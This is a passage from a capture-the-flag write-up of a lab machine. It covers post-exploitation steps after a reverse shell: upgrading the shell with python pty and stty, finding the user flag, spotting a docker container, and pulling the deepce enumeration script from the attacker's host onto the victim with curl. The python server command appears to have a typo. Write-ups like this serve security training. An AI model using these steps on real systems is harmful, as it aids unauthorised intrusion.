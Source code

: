 I now had a reverse shell which what appeared to be the root user.  I upgraded and stabilised my shell with 

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
``` 
and then ctrl+z to background the session followed by:

```bash
stty raw -echo; fg
``` 
enter enter.  Then so I could clear my terminal 

```bash
export TERM=xterm
``` 

I found the `/home/augustus` directory and the user.txt file with the user flag.  

But after looking around it became apparent I was not on the host machine.  It appeared I was inside a docker instance.  But the Augustus user was not mentioned in the `/etc/passwd` file which meant it must be a user on the host machine. 

I then downloaded and used a tool [deepce](https://github.com/stealthcopter/deepce) which allowed me to gather some information about the docker instance I was currently inside.  I downloaded the latest version, created a python webserver on my attack machine 

```bash
python3 -m http-server 8000
``` 
and transferred it to the victim machine by using curl on the victim machine.

```bash
curl http://10.10.14.36:8000/deepce.sh
```

[<img src="../images/good_games/deepce.png"
  style="width: 800px;"/>](../images/good_games/deepce.png)
  